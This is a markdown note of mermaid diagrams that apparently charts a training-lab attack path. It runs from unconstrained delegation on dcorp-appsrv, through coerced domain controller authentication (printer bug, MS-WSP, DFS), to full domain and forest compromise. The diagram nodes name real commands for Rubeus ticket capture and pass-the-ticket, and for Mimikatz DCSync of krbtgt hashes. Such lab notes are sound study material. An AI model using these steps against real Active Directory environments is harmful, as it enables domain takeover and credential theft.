


# dcorp-appsrv — Unconstrained Delegation + Coercion → DC TGT

## Attack Path

```mermaid
flowchart TD
    START(["🔑 appadmin creds\nfrom dcorp-adminsrv"])

    subgraph access["Phase 1: Access dcorp-appsrv"]
        A1["appadmin is local admin\non dcorp-appsrv"]
        A2["winrs -r:dcorp-appsrv -u:appadmin\nEnter-PSSession as appadmin"]
        A3["✅ Shell on dcorp-appsrv"]
    end

    subgraph uncon["Phase 2: Identify Unconstrained Delegation"]
        U1["Enumerate machines with\nUnconstrained Delegation\nGet-DomainComputer -Unconstrained\nGet-ADComputer -Filter {TrustedForDelegation -eq $true}"]
        U2["dcorp-appsrv has\nUnconstrained Delegation flag set"]
        U3["When any user authenticates to appsrv\ntheir full TGT is cached on appsrv\nin LSASS memory"]
    end

    subgraph coerce["Phase 3: Coerce DC Authentication"]
        C1["Monitor for TGTs\nRubeus.exe monitor /interval:5 /nowrap"]
        C2A["MS-RPRN Printer Bug\nInvoke-SpoolSamplePrinterBug\n-ComputerName dcorp-dc\n-ComputerNameListenerIP dcorp-appsrv"]
        C2B["MS-WSP\nInvoke-MS-WSP / SharpWSP\nCoerce dcorp-dc → appsrv"]
        C2C["MS-DFSNM / Coercer\nCoerce via DFS Namespace protocol"]
        C3["dcorp-dc$ authenticates to appsrv\nDCORP-DC$ TGT cached on appsrv"]
        C4["Rubeus catches TGT\nRubeus.exe monitor output"]
    end

    subgraph exploit["Phase 4: Use DC TGT"]
        E1["Copy TGT ticket\nRubeus.exe ptt /ticket:BASE64_TICKET"]
        E2["DCSync with DC machine account\nInvoke-Mimikatz lsadump::dcsync\n/user:dcorp\\krbtgt\n(using DC$ ticket)"]
        E3["✅ Full dollarcorp compromise\nkrbtgt hash extracted"]
    end

    subgraph mcorp["Phase 5: Escalate to mcorp via MCORP-DC$ TGT"]
        M1["Coerce mcorp-dc\ntoward dcorp-appsrv"]
        M2["Capture MCORP-DC$ TGT\non dcorp-appsrv"]
        M3["Use MCORP-DC$ ticket\nlsadump::dcsync /domain:moneycorp.local\n/user:mcorp\\krbtgt"]
        M4["✅ Root domain compromise\nmoneycorp.local"]
        M5["Extract Enterprise Admin hash\nEA group in moneycorp.local"]
    end

    START --> A1 --> A2 --> A3
    A3 --> U1 --> U2 --> U3
    U3 --> C1
    C1 --> C2A & C2B & C2C
    C2A & C2B & C2C --> C3 --> C4
    C4 --> E1 --> E2 --> E3
    E3 --> M1 --> M2 --> M3 --> M4 --> M5

    style START fill:#4CAF50,color:#fff
    style A3 fill:#FF9800,color:#fff
    style E3 fill:#f44336,color:#fff
    style M4 fill:#9C27B0,color:#fff
    style M5 fill:#9C27B0,color:#fff
```

## Mindmap

```mermaid
mindmap
  root((dcorp-appsrv))
    Initial Access
      appadmin credentials
        Extracted from adminsrv
      winrs / PSRemoting
        Local admin access
    Unconstrained Delegation
      What it means
        Store any user TGT
        Full ticket in LSASS
      Enumerate
        Get-DomainComputer -Unconstrained
        TrustedForDelegation flag
    Coercion Techniques
      Printer Bug MS-RPRN
        SpoolSamplePrinterBug
        Force DC to authenticate
      MS-WSP
        SharpWSP
        Another coercion vector
      MS-DFSNM
        DFS Namespace coercion
        Coercer tool
      Rubeus Monitor
        Watch for incoming TGTs
        /interval:5
    Capture DC TGT
      DCORP-DC$ TGT
        DCSync as machine account
        Extract krbtgt
        Full dollarcorp DA
      MCORP-DC$ TGT
        Coerce root DC
        DCSync moneycorp.local
        Enterprise Admin access
```
